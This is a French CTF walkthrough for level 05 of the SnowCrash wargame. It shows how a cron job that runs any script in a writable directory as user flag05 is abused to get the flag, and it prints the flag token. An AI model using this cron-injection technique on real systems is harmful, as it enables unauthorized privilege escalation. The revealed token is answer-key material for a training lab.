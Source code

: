 # LEVEL 05
- On test le usual:
```
level05@SnowCrash:~$ ls -l
total 0
```
- On cherche les fichiers du user Level05
```
find / -name level05 2>&-
/var/mail/level05
```

- On trouve un script cron qui se lance une minute sur deux
```
cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

- On regarde le contenu du script `cat /usr/sbin/openarenaserver`
```sh
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

- Ce script execute tous les scripts presents dans /opt/openarenaserver/, on y créer donc notre script bash pour executer la commande getflag:
```
echo "getflag > /var/crash/flag05" > /opt/openarenaserver/lol
```
Wait two minutes....

```
cat /var/crash/flag05
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

## ⚡ Flag
`viuaaale9huek52boumoomioc`